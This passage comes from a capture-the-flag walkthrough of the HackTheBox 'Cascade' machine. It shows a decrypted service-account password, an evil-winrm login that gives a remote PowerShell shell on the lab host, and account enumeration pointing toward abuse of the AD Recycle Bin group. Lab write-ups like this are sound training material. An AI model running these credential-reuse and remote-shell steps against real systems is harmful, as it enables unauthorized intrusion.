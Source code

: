 Looks like we're using AES CBC, and now have the key and IV. Let's use good ol' Cyber Chef and decrypt our password.

![cascade3](/images/cascade3.png)

And now we've got a new set of credentials: `ArkSvc:w3lc0meFr31nd`

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ evil-winrm -i 10.129.145.225 -u ArkSvc -p 'w3lc0meFr31nd'        

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

## Shell as ArkSvc

### Enumeration

```PowerShell
*Evil-WinRM* PS C:\Users\arksvc\Documents> net user arksvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 4:18:20 PM
Password expires             Never
Password changeable          1/9/2020 4:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 9:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Once again, we see `AD Recycle Bin`, just like when we were looking at the SMB shares for `r.thompson` earlier. After some research, it seems this is a fairly common Windows group, and there might be a way to recover deleted items. Details can be found [here](https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/).
